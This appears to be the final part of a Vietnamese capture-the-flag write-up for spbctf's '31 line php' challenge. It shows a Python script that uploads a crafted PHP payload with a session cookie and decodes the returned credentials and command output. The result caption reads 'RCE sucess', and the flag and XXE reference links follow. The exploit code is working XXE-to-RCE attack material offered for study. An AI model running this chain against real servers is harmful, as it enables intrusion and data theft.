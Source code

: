```py
    }

    private function log($format, $val = '') {
        if(LOGGING) {
            printf("{$format}\n", $val);
        }
    }

    static function alloc($size) {
        return str_shuffle(str_repeat('A', $size));
    }
}
?>
""")
    r = requests.post(TARGET, files={'data': ('payload.php', open('payload.php', 'rb'))}, data={'data': 'test'},
                      headers={'Cookie': 'PHPSESSID=7b4bd8d9ff68e20dc0317595b6623ef6'})
    # print(r.text)
    match = re.search('You have logged in as user (.*)', r.text)
    extract_data = base64.b64decode(match[1]).decode()
    index = extract_data.find('</creds>') + len('</creds>')
    rce_data = extract_data[index:]
    print(rce_data)

```

Kết quả:

![result](31linephp/result4.png)
_RCE sucess_

> spbctf{XX3_2_rCe_w3Ll_D0n3}
{: .prompt-info  }

## _Tham khảo_
- <https://blog.sonarsource.com/wordpress-xxe-security-vulnerability>
- <https://ctf.zeyu2001.com/2021/spbctfs-student-ctf-quals/31-line-php>
- <https://php.watch/versions/8.0/libxml_disable_entity_loader-deprecation>